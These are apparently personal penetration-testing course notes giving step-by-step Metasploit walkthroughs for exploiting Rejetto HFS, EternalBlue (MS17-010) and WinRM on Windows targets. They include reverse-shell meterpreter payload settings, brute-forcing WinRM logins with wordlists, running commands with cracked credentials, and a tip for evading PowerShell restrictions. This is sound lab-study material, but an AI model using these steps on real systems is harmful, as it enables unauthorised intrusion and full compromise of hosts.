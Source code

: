 

### Exploiting A vulnerable HTTP File server 

Http File server
- Web server that is designed for file & document sharing 
	- you can only host files (not websites etc)
	- webserver can be used for files and doc but can also be utilized to host a website
- HTTP file servers run on port 80 and use HTTP protocol for underlying communication 
- Rejetto HFS is a popular free and open source HTTP file server that can be setup on Windows and Linux 
- Rejetto HFD V2.3 is vulnerable to remote command and execution attacks 
- MSF has an exploits module that we can utilize to gain access to the target system hosting the HFS 
  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds

1. start up `postgreql` database 
2. start up `msfconsole` 
3. create workspace: `workspace -a HFS`
4. set up global variable: `setg rhosts target `
5. start with nmap scan: `db_nmap -sS -sV -O target ` the results will be stored in workspace 
6. directly search in msfconsole for module: `search type:exploit name:rejetto `
7. `use  exploit/windows/http/rejetto_hfs_exec ` -> `run` 
8. We can set payload to: `set payload windows/x64/meterpreter/reverse_tcp `
9. set `LPORT` and `LHOST` -> `run` 


### Exploiting the Windows MS17-010 SMB Vulnerability 
- the name of the exploit is EternalBlue 
- EternalBlue is a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is part of 
- Takes advantage of vulnerability in Windows SMBv1 
- used in wannacry attack 
- Eternal Blue has MSF auxiliary module that can be used to check if a target system is vulnerable 
- Important: The Eternal Blue exploit will give us a *priviliged* meterpreter session on target system instead of a standard non-priviliged meterpreter session. This means complete control over the target system 

1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -O target` 
5) `services` (show the identified services in nmap)
6) find module that can see if system is vulnerable: `search type: auxiliary name: EternalBlue`
7) `use aux/scanner/smb/smb_ms17_010 `
8) if the results indicate that the system is vulnerable, look for the exploit: `search type:exploit name:EternalBlue ` --> `exploit/windows/smb/ms17_010_eternalblue`
9) check priviliged: `getuid` 
   (NT) AUTORITY SYTEM = highest priviliged possible (elevated meterpreter session no need for priviliged escalation)


### Exploiting WinRM (Windows Remote Management Protocol)

- WinRM is used for: 
	- Remotely access and interact with Windows hosts on a local network 
	- Remotely access and execute commands on Windows systems on the internet 
	- Manage and configure Windows system remotely 
- uses tcp port 5985 and 5986 
- Exploiting WinRM
	- WinRM implements access control and security for communication between systems through various forms of authentication 
	- Utilize the MSF to identify WinRM users and their passwords as well as execute commands on the target system 
	- Utilize a MSF WinRM exploit module to obtain a meterpreter session on the target system 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) `services`  (port 5985 of 5986 is winrm)
6) check authentication methods supported on target: `search type: auxiliary name: winrm` 
7) `use aux/scanner/winrm/winrm_auth_methods` --> `run` 
   ![[Pasted image 20230824215722.png]]
	Negotiate protocol supported, basic protocol supported means that we can do a bruteforce on the username and passwords. 
8) prepare the bruteforce: `search winrm_login` -> `use auxiliary/scanner/winrm/winrm_login `
	1) set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	2) set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
9) when you have a hit on bruteforce, we will try to use the credentials `search winrm_cmd ` 
	1) `use auxiliary/scanner/winrm/winrm_cmd `
	2) `set USERNAME administrator `
	3) `set PASSWORD tinkerbell `
	4) specify command to run on target system to confirm that we have access: `set CMD whoami`
10) get meterpreter session through module: winrm_script 
	1) use exploit/windows/winrm/winrm_script_exec 
	2) set passwords,targetip,targeturi,username,lhost,lport 


![[Pasted image 20230824220529.png]]
When you have an issue with runtime -> set the force VBS (visual basic option) instead of the powershell command stager: `set FORCE_VBS true `. This can be useful if PowerShell is restricted or if VBS is more likely to bypass security controls on the target system. VBS is a scripting language developed by Microsoft. It's often used for administrative tasks and automation on Windows systems. In the context of penetration testing, it can be a viable alternative to PowerShell for executing commands or scripts on a target Windows machine. **PowerShell Command Stager**: PowerShell is a powerful scripting language on Windows systems. A "command stager" in Metasploit is a technique for delivering and executing payloads. However, in some scenarios, PowerShell may be restricted or blocked by security measures on the target system. 











###  Exploiting Vulnerable Apache Tomcat Web server 


